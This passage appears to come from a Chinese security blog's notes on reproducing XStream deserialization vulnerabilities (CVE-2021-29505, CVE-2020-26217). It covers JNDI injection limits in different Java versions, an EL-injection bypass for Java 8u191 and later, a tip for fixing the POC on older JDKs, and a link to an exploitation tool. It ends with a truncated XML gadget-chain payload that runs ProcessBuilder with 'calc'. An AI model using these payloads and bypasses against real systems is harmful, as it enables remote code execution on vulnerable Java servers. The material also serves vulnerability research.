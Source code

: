 ```java
}

```

![image-20210608165809103](https://i.loli.net/2021/06/08/TZ1vj6Fzy5EnNCx.png)

![image-20210608165830309](https://i.loli.net/2021/06/08/dn8bAYmqEOUtPh4.png)

**踩坑**

1）Java 8u121以后，默认trustURLCodebase为false，不再支持从远程codebase加载类，JNDI注入时使用rmi协议失效，但是ldap协议还可以用。

2）对于低版本j d k网上原版POC需改动：

若复现报错：No such field com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault._overrideDefaultParser
，那么说明目标Java版本较低，需要更改下POC，将POC中的<__overrideDefaultParser>false</__overrideDefaultParser>改成<__useServicesMechanism>false</__useServicesMechanism>即可。

**Java 8u191+**

若Java 8u191以后，ldap也被禁用了情况下，可用s pe l表达式来执行命令。

s pe l利用点直接引用P师傅星球ideal:

8u191以后如何利用，参考这篇文章：https://www.veracode.com/blog/research/exploiting-jndi-injections-java，借助org.apache.naming.factory.BeanFactory加EL表达式注入的方式来执行任意命令。可以使用这个小工具：https://github.com/welk1n/JNDI-Injection-Exploit/来利用

利用小工具

https://www.veracode.com/blog/research/exploiting-jndi-injections-java

参考：

http://x-stream.github.io/CVE-2021-29505.html

https://wx.zsxq.com/mweb/views/topicdetail/topicdetail.html?topic_id=414124428221458&inviter_id=88855814114142&share_from=ShareToWechat&keyword=2fuv7Ur 

https://www.veracode.com/blog/research/exploiting-jndi-injections-java

CVE-2021-29505 调用public 命令执行

CVE-2020-26217 XStream < 1.4.14

poc

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
```